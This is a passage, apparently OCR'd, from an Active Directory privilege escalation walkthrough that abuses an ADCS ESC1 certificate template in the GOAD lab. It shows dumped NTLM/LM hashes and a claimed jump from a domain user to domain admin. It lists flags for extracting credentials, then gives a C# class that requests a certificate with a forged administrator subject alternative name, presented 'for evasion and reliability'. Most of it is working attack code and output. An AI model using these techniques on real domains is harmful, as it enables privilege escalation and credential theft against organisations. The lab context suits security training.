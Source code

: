 ```bash
    ntlm- 0: a577fcf16cfef780a2ceb343ec39a0d9
    lm  - 0: 367ac3b3d1f4d80b8f52a7b6e8c1d2e9
```

Excellent! We've successfully escalated from a domain user (`missandei`) to domain admin using ESC1.

**Key Improvements for ESC1 Attacks:**
- Use `/sid` parameter for accuracy and to avoid certificate mismatch issues
- `/getcredentials` flag extracts NTLM hash directly without needing TGT
- `certutil -MergePFX` provides Windows-native certificate conversion
- More specific enumeration with `/enabled /enrolleeSuppliesSubject` flags

### Advanced ESC1 Techniques

For evasion and reliability, consider these advanced approaches using the GOAD environment:

```csharp
// Custom C# implementation for certificate requests
using System.Security.Cryptography.X509Certificates;
using System.Text;
using CERTENROLLLib;

public class CertificateRequestor
{
    public string RequestCertificate(string caConfig, string template, string altName)
    {
        // Create certificate request
        var request = new CX509CertificateRequestPkcs10();
        var privateKey = new CX509PrivateKey();
        var csp = new CCspInformation();

        // Configure private key
        privateKey.ProviderName = "Microsoft Enhanced RSA and AES Cryptographic Provider";
        privateKey.KeySpec = X509KeySpec.XCN_AT_KEYEXCHANGE;
        privateKey.Length = 2048;
        privateKey.Create();

        // Build certificate request for GOAD environment
        request.InitializeFromPrivateKey(
            X509CertificateEnrollmentContext.ContextUser,
            privateKey,
            template);

        // Add SAN extension for administrator@essos.local
        var sanExtension = new CX509ExtensionAlternativeNames();
        var altNames = new CAlternativeNames();
        var altNameObj = new CAlternativeName();

        altNameObj.InitializeFromString(
            AlternativeNameType.XCN_CERT_ALT_NAME_RFC822_NAME,
            altName);
        altNames.Add(altNameObj);

        sanExtension.InitializeEncode(altNames);
        request.X509Extensions.Add(sanExtension);

        // Submit request
        var enroll = new CX509Enrollment();
        enroll.InitializeFromRequest(request);
        enroll.CertificateFriendlyName = "ESC1 Certificate";

        return enroll.CreateRequest(EncodingType.XCN_CRYPT_STRING_BASE64);
    }
}
```